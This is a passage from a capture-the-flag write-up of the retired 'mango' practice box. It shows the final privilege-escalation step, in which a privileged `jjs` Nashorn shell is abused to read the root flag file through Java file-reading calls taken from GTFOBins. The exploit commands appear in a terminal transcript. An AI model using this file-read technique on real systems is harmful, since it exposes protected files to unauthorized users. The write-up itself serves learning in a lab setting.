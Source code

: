 `jjs` tool was owned by user `admin` as it was a tool which is used to invoke the Nashorn engine. You can find detail [here](https://docs.oracle.com/en/java/javase/11/tools/jjs.html).

And for exploit I usually search in [gtfobins.io](https://gtfobins.github.io/gtfobins/jjs/). and I got the exploit for tool `jjs`.

#### jjs Commands 

```bash
admin@mango:/home/admin/$ echo 'var BufferedReader = Java.type("java.io.BufferedReeader");
> ^C
eader");ngo:/home/admin$ echo 'var BufferedReader = Java.type("java.io.BufferedRe
jjs> var BufferedReader = Java.type("java.io.BufferedReader");
jjs> var FileReader = Java.type("java.io.FileReader");
jjs> var br = new BufferedReader(new FileReader("/root/root.txt"));
jjs> while ((line = br.readLine()) != null) { print(line); }
8a8ef********************
jjs>
```

This way I got the root of `mango` box and learned alot from this box. So I would like to thank creator of this box `MrR3boot` for such an awesome box.
	
I will be posting writeup of next box after box retired. I would like to Thank readers for being with me through out this writeup. 

Feedback are really appreciated !!  

Tweet about this writeup if you like.	

You can see more blog at my medium here: [gr4n173](https://medium.com/@gr4n173).





